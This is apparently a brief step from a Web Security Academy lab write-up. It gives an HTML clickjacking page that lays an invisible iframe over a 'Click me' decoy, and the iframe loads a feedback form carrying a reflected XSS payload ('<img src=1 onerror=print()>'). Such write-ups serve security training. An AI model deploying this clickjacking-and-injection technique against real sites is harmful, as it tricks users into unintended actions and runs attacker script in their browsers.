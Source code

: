 
1. Add the following exploit on the Exploit server;

```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 900px;
		opacity: 0.00001;
		z-index: 2;
	}
	div {
		position:absolute;
		top:815px;
		left:40px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a3400d204b08b998136575a00cb0034.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>


```



![](/static/img/Pasted_image_20231202095526.png)
